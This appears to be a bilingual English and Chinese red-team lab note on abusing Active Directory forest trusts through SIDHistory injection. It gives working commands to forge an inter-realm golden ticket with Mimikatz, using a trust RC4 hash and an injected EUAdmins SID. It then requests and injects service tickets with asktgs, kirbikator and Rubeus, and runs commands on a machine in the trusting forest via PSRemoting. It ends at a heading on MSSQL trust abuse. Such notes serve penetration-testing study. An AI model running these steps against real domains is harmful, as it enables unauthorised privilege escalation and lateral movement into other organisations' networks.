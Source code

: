 Identifiers for end user-created domain identities and domain groups.

Not filtered at domain and external trust boundaries. Can be filtered at member, quarantined, and cross-forest boundaries.

See the filtering pattern table [here](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-pac/55fc19f2-55ba-4251-8a6a-103dd7c66280)

This means, if we have an external trust (or a forest trust with SID history enabled -/enablesidhistory:yes), we can inject a SIDHistory for RID > 1000 to access resources accessible to that identity or group in the target trusting forest.（这意味着，如果我们有一个外部信任（或启用了 SID 历史记录的林信任 -/enablesidhistory:yes），我们可以为 RID > 1000 注入一个 SIDHistory 以访问目标信任林中该身份或组可访问的资源。）


We had DA access to eu.local. Let's enumerate trusts from a PSRemoting session on eu-dc:
```
Get-ADTrust -Filter *
```

• SIDFilteringForestAware is set to True, it means SIDHistory is enabled across the forest trust.(SIDFilteringForestAware 设置为True，这意味着SIDHistory 跨森林信任启用。)
• Please remember that still only RID > 1000 SIDs will be allowed across the trust boundary.(请记住，仍然只允许 RID > 1000 SID 跨越信任边界。)

```
Get-ADGroup -Identity EUAdmins -Server euvendor.local
```

在eu-dc，使用 EUAdmins 组的 SIDHistory 创建一个 TGT
```
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:eu.local /sid:S-1-5-21-3657428294-2017276338-1274645009 /rc4:799a0ae7e6ce96369aa7f1e9da25175a /service:krbtgt /target:euvendor.local /sids:S-1-5-21-4066061358-3942393892-617142613-1103 /ticket:C:\Users\Public\euvendornet.kirbi"'
```

上面tgt，请求 TGS
```
.\asktgs.exe C:\Users\Public\euvendornet.kirbi HTTP/euvendor-net.euvendor.local
```

注入到当前session
```
.\kirbikator.exe lsa HTTP.euvendor-net.euvendor.local.kirbi
```
或者
```
C:\Users\Public\Rubeus.exe asktgs /ticket:C:\Users\Public\euvendornet.kirbi /service:HTTP/euvendor-net.euvendor.local /dc:euvendor-dc.euvendor.local /ptt
```

使用 PSRemoting 访问 euvendor-net 机器
```
Invoke-Command -ScriptBlock{whoami} -ComputerName euvendor-net.euvendor.local -Authentication NegotiateWithImplicitCredential
```

# Trust Abuse - MSSQL Servers

